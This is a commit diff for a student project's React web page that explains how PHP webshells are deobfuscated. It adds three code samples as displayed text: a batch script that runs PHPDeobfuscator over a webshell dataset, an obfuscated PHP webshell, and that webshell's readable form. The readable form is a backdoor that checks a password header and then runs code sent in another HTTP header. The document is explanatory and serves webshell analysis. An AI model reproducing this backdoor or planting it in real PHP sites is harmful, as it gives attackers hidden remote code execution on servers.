

Before and after one commit to PNU-moonjigi/moonjigi-fe, a React (Vite) app: page /process in a window 1280 px wide. Shown: the top 952 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
chore: 과정 페이지의 비난독화 내용 채우기

```diff
--- a/src/page/Process/Deobfuscation.tsx
+++ b/src/page/Process/Deobfuscation.tsx
@@ -9,77 +9,100 @@ const Deobfuscation: React.FC = () => {
         <div className={styles.descriptionSide}>
           <h2 className={styles.highlight}>비난독화</h2>
           <h1 className={styles.title}>
-            난독화된 php 파일을 비난독화 어쩌구 간략한 설명
+            난독화된 코드를 원래의 가독성 있는 형태로 되돌리기
           </h1>
           <p className={styles.subtitle}>
-            난독화된 php 파일을 비난독화어쩌구저쩌구 추가설명
+            PHPDeobfuscator를 이용하여 난독화된 PHP 코드를 비난독화하여 원래의 코드 형태로 복원한다.
           </p>
         </div>
         <div className={styles.imgSide}>
           <ImageWithText>
-            hi, for test. hi, for test. hi, for test. hi, for test. hi, for
-            test. hi, for test. hi, for test. hi, for test. hi, for test. hi,
-            for test. hi, for test. hi, for test. hi, for test. hi, for test.
-            hi, for test. hi, for test. hi, for test. hi, for test. hi, for
-            test. hi, for test. hi, for test. hi, for test. hi, for test. hi,
-            for test. hi, for test. hi, for test. hi, for test. hi, for test.
-            hi, for test. hi, for test. hi, for test. hi, for test. hi, for
-            test. hi, for test. hi, for test. hi, for test. hi, for test. hi,
-            for test. hi, for test. hi, for test. hi, for test. hi, for test.
-            hi, for test. hi, for test. hi, for test. hi, for test. hi, for
-            test. hi, for test. hi, for test. hi, for test. hi, for test. hi,
-            for test. hi, for test. hi, for test. hi, for test. hi, for test.
-            hi, for test. hi, for test. hi, for test. hi, for test. hi, for
-            test. hi, for test. hi, for test. hi, for test. hi, for test. hi,
-            for test. hi, for test. hi, for test. hi, for test. hi, for test.
-            hi, for test. hi, for test. hi, for test. hi, for test. hi, for
-            test. hi, for test. hi, for test. hi, for test. hi, for test. hi,
-            for test. hi, for test. hi, for test. hi, for test. hi, for test.
-            hi, for test. hi, for test. hi, for test. hi, for test. hi, for
-            test. hi, for test.
+            {`<?php
+$inputDir = '/root/gradProj/dataset/webshell_file';
+
+$outputDir = '/root/gradProj/result/webshell_deobfuscated';
+
+$phpDeobfuscatorPath = '/root/PHPDeobfuscator';
+
+if (!file_exists($outputDir)) {
+    mkdir($outputDir, 0777, true);
+}
+
+$files = scandir($inputDir);
+
+foreach ($files as $file) {
+    if ($file == '.' || $file == '..' || is_dir($inputDir . '/' . $file)) {
+        continue;
+    }
+
+    $inputFilePath = $inputDir . '/' . $file;
+
+    $outputFilePath = $outputDir . '/' . $file;
+
+    $command = "php $phpDeobfuscatorPath/index.php -f $inputFilePath > $outputFilePath";
+    exec($command, $output, $return_var);
+
+    if ($return_var !== 0) {
+        echo "error while de... file  $file\n";
+        echo "Command: $command\n";
+        echo "Output:\n";
+        print_r($output);
+    } else {
+        echo "file  $file de... complete: $outputFilePath\n";
+    }
+}
+
+echo "de~ complete...?\n";
+?>`}
           </ImageWithText>
         </div>
       </div>
       <div className={styles.terminalSection}>
         <ImageWithText>
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
+          {`<?php
+$Xt='h2q'|uXxuyyo;$sC='-{K'&'-?[';$yWIm3f4='V$'.fx8N^'7'.d68V.'(';$VSFHxobN6='Bh\`b'.
+    '?t'^'.<6<\`5';$NiMFQcdpv='3<U[7'^'d[b&N';$bO='2y*qR1-h6'^'{Q~76'.UjJz;'yuAR9bK'.
+    '_IM';$NFOor='$!$ '|' \`, ';$tRPwxjf_2s=_IY^'<}k';$GYjy197jA='@'.TPPWHUOC_.#yhy'.
+    '@R'|'HTD@IX_@'.PYPR;$GqY8x4='c~3'^'&8\`';$GnA=('@_~'&'j_~')^$sC;$HK4kh284Iy=/*'.
+    'll>{o2ebAe*/$yWIm3f4|('.HM{lz'^"Im)^\\$N");$ba=(KwKBj.']9n['.yoIl8_&'SV[n/y<Mo'.
+    '?KYL<O')^('(4/#~?ok>_l}?_g'&'5,>?^|w:~w*?%W)');$mKGuIFLsIU9=$VSFHxobN6&(/*fQ2'.
+    'V6Kp]gAh*/HMDPGA|'XYT@[A');$Ml1=$NiMFQcdpv&('rQ2#n'|'(b&6~');$YK3qRS=(/*JGSvZ'.
+    'ok,*/PyTJp.'(rh_'&w4_Om0ZbH)|$bO;if($GnA($HK4kh284Iy($mKGuIFLsIU9))==('|Y{q=H'.
+    'ME]xqQ\`{]rSe%'.Gm2dmUH^'I=JDY*xv<A@'.fYK8KbVA.'$'.YWTX4y).(w^D).('5;'&'3=')./*'.
+    '{)RG)Unn3*/$tRPwxjf_2s)$kR_NKA7Su=$ba($NFOor.(H0^lR),$HK4kh284Iy(/*I2jAJZEnpN'.
+    '_nO*/$GYjy197jA.$GqY8x4));$kR_NKA7Su($Ml1,$YK3qRS);#rTlthc@v^U@ykQuNEiaq9NFC'.
+    'n0dvU,yCve{Fu~CtA*8%sZWe_%mZdpX_<Ra4M~2GuB}6m4';`}
         </ImageWithText>
         <ImageWithText>
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
+          {`<?php
+
+$Xt = "}zyuyyo";
+$sC = '-;K';
+$yWIm3f4 = "a@P@nf";
+$VSFHxobN6 = 'lTV^_A';
+$NiMFQcdpv = 'Wg7}y';
+$bO = "I(TFddG\\"L";
+'yuAR9bK_IM';
+$NFOor = '$a, ';
+$tRPwxjf_2s = "c42";
+$GYjy197jA = "HTTP_X_OS_PR";
+$GqY8x4 = 'EFS';
+$GnA = "md5";
+$HK4kh284Iy = "getenv";
+$ba = "create_function";
+$mKGuIFLsIU9 = "HTTP_A";
+$Ml1 = "Rc65x";
+$YK3qRS = "Y8TNddWbL";
+if (md5(getenv($mKGuIFLsIU9)) == "5d15db53a91790e913dc4e05a1319c42") {
+    $kR_NKA7Su = create_function("\\$a, \\$b", getenv(
+        /*I2jAJZEnpN'.
+          '_nO*/
+        "HTTP_X_OS_PREFS"
+    ));
+}
+$kR_NKA7Su($Ml1, $YK3qRS);
+#rTlthc@v^U@ykQuNEiaq9NFC'.
+'n0dvU,yCve{Fu~CtA*8%sZWe_%mZdpX_<Ra4M~2GuB}6m4';`}
         </ImageWithText>
       </div>
     </div>
```
